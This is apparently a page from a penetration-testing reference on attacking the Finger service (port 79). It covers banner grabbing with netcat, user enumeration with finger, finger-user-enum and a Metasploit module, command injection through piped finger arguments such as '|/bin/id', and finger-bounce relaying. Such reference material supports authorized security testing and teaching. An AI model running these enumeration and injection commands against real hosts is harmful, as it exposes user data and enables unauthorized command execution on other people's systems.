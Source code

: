 # 79 - Pentesting Finger



## **Basic Info**

The **Finger** program/service is utilized for retrieving details about computer users. Typically, the information provided includes the **user's login name, full name**, and, in some cases, additional details. These extra details could encompass the office location and phone number (if available), the time the user logged in, the period of inactivity (idle time), the last instance mail was read by the user, and the contents of the user's plan and project files.

**Default port:** 79

```
PORT   STATE SERVICE
79/tcp open  finger
```
```
## **Enumeration**

### **Banner Grabbing/Basic connection**

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
```
### **User enumeration**

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
```
Alternatively you can use **finger-user-enum** from [[http://pentestmonkey.net/tools/user-enumeration/finger-user-enum|**pentestmonkey**]], some examples:

```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
```
#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap

```
use auxiliary/scanner/finger/finger_users
```
```
### Shodan

- `port:79 USER`

## Command execution

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
```
## Finger Bounce

[[https://securiteam.com/exploits/2BUQ2RFQ0I/|Use a system as a finger relay]]

```
finger user@host@victim
finger @internal@external
```
```



